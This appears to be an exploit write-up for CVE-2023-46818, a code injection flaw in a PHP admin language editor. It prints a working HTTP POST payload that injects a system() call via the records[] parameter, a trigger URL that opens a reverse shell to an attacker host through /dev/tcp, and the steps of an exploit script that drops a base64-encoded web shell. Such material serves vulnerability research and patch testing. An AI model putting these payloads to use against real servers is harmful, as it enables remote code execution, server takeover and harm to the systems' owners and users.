 > The only condition for operation is the global option
> `admin_allow_langedit = true` (enabled by default).

Example from PoC:
```http
POST /admin/language_edit.php
Content-Type: application/x-www-form-urlencoded
...

lang=en&module=help&lang_file=exploit.lng&
records[%5C]='];system($_GET[cmd]);die;//
```
1. `records[\]` — the key passes the regex `^[a-z0-9_]+$`? — Yes, the backslash is escaped.
2. The value closes the line, adds `system($_GET[cmd]);` and comments the tail.
3. The next `include` yields RCE:
`http://target/admin/help/?cmd=bash+-i+>&+/dev/tcp/attacker/4444`

What `CVE-2023-46818.py` does:
1. Logs in with the admin pair.
2. Selects any language/module.
3. Sends the payload string
`file_put_contents('sh.php', base64_decode('…'));die;#` via `records[]`.
4. Requests `/admin/sh.php` — the file already contains a web shell, the code is executed.
